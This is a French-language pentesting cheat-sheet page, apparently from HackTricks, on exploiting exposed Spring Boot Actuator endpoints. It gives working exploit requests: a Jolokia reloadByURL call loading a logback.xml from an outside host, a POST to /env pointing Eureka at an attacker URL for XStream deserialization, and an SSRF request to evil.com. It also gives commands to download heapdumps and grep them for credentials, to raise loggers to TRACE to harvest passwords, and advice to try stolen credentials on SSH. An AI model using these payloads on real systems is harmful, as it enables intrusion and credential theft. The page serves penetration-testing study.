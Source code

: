# Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Consultez l'article original sur** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Points clés :**

- Spring Boot Actuators exposent des endpoints tels que `/health`, `/trace`, `/beans`, `/env`, etc. Dans les versions 1 à 1.4, ces endpoints sont accessibles sans authentification. À partir de la version 1.5, seuls `/health` et `/info` ne sont pas sensibles par défaut, mais les développeurs désactivent souvent cette protection.
- Certains endpoints Actuator peuvent divulguer des données sensibles ou permettre des actions dangereuses :
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, et `/heapdump`.
- Dans Spring Boot 1.x, les actuators sont enregistrés à la racine de l'URL, alors que dans 2.x, ils sont sous le chemin de base `/actuator/`.

### **Techniques d'exploitation :**

1. **Remote Code Execution via '/jolokia'**:
- L'endpoint `/jolokia` expose la bibliothèque Jolokia, qui permet un accès HTTP aux MBeans.
- L'action `reloadByURL` peut être exploitée pour recharger des configurations de logging depuis une URL externe, ce qui peut conduire à un blind XXE ou Remote Code Execution via des configurations XML spécialement conçues.
- Exemple d'URL d'exploit : `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

- Si les Spring Cloud Libraries sont présentes, l'endpoint `/env` permet la modification des propriétés d'environnement.
- Les propriétés peuvent être manipulées pour exploiter des vulnérabilités, comme la vulnérabilité de deserialization XStream dans le serviceURL d'Eureka.
- Exemple de requête POST d'exploit :

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Other Useful Settings**:
- Des propriétés comme `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, et `spring.datasource.tomcat.max-active` peuvent être manipulées pour divers exploits, tels que SQL injection ou la modification des chaînes de connexion à la base de données.

### **Informations supplémentaires :**

- Une liste complète des actuators par défaut est disponible [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- L'endpoint `/env` dans Spring Boot 2.x utilise le format JSON pour la modification des propriétés, mais le concept général reste le même.

### **Sujets connexes :**

1.  **Env + H2 RCE**:
- Détails sur l'exploitation de la combinaison de l'endpoint `/env` et de la base H2 sont disponibles [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
- La gestion par le framework Spring des paramètres matrix (`;`) dans les pathnames HTTP peut être exploitée pour du Server-Side Request Forgery (SSRF).
- Exemple de requête d'exploitation :
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
## HeapDump secrets mining (credentials, tokens, internal URLs)

Si `/actuator/heapdump` est exposé, vous pouvez généralement récupérer un snapshot complet du heap JVM qui contient fréquemment des secrets en direct (DB creds, API keys, Basic-Auth, internal service URLs, Spring property maps, etc.).

- Téléchargement et triage rapide :
```bash
wget http://target/actuator/heapdump -O heapdump
# Quick wins: look for HTTP auth and JDBC
strings -a heapdump | grep -nE 'Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client'
# Decode any Basic credentials you find
printf %s 'RXhhbXBsZUJhc2U2NEhlcmU=' | base64 -d
```

- Analyse plus approfondie avec VisualVM et OQL :
- Ouvrez le heapdump dans VisualVM, inspectez les instances de `java.lang.String` ou exécutez OQL pour rechercher des secrets :
```
select s.toString()
from java.lang.String s
where /Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client|OriginTrackedMapPropertySource/i.test(s.toString())
```

- Extraction automatisée avec JDumpSpider :
```bash
java -jar JDumpSpider-*.jar heapdump
```
Résultats typiques à forte valeur :
- Objets Spring `DataSourceProperties` / `HikariDataSource` exposant `url`, `username`, `password`.
- Entrées `OriginTrackedMapPropertySource` révélant `management.endpoints.web.exposure.include`, les ports de service, et Basic-Auth intégré dans les URLs (par ex., Eureka `defaultZone`).
- Fragments de requêtes/réponses HTTP bruts incluant `Authorization: Basic ...` capturés en mémoire.

Conseils :
- Utilisez une wordlist axée Spring pour découvrir rapidement les endpoints d'actuator (par ex., SecLists spring-boot.txt) et vérifiez toujours si `/actuator/logfile`, `/actuator/httpexchanges`, `/actuator/env`, et `/actuator/configprops` sont également exposés.
- Les credentials issus du heapdump fonctionnent souvent pour des services adjacents et parfois pour des utilisateurs système (SSH), donc essayez-les largement.


## Abuser des loggers/logging d'Actuator pour capturer des credentials

Si `management.endpoints.web.exposure.include` le permet et que `/actuator/loggers` est exposé, vous pouvez augmenter dynamiquement les niveaux de logs à DEBUG/TRACE pour les packages qui gèrent l'authentification et le traitement des requêtes. Combiné avec des logs lisibles (via `/actuator/logfile` ou des chemins de logs connus), cela peut leak credentials soumis lors des flux de connexion (par ex., en-têtes Basic-Auth ou paramètres de formulaire).

- Énumérez et augmentez les loggers sensibles :
```bash
# List available loggers
curl -s http://target/actuator/loggers | jq .

# Enable very verbose logs for security/web stacks (adjust as needed)
curl -s -X POST http://target/actuator/loggers/org.springframework.security \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.web \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.cloud.gateway \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
```

- Trouvez où les logs sont écrits et récoltez-les :
```bash
# If exposed, read from Actuator directly
curl -s http://target/actuator/logfile | strings | grep -nE 'Authorization:|username=|password='

# Otherwise, query env/config to locate file path
curl -s http://target/actuator/env | jq '.propertySources[].properties | to_entries[] | select(.key|test("^logging\\.(file|path)"))'
```

- Déclenchez du trafic de login/authentification et analysez le log pour les creds. Dans des architectures microservices avec une gateway en front d'auth, activer TRACE pour les packages gateway/security rend souvent visibles les headers et les corps de formulaires. Certains environnements génèrent même périodiquement du trafic de login synthétique, rendant la récolte triviale une fois que le logging est verbeux.

Remarques :
- Réinitialisez les niveaux de log une fois terminé : `POST /actuator/loggers/<logger>` avec `{ "configuredLevel": null }`.
- Si `/actuator/httpexchanges` est exposé, il peut aussi faire apparaître des metadata récentes de requêtes qui peuvent inclure des headers sensibles.


## References

- [Exploring Spring Boot Actuator Misconfigurations (Wiz)](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)
- [VisualVM](https://visualvm.github.io/)
- [JDumpSpider](https://github.com/whwlsfb/JDumpSpider)
- [0xdf – HTB Eureka (Actuator heapdump to creds, Gateway logging abuse)](https://0xdf.gitlab.io/2025/08/30/htb-eureka.html)

{{#include ../../banners/hacktricks-training.md}}
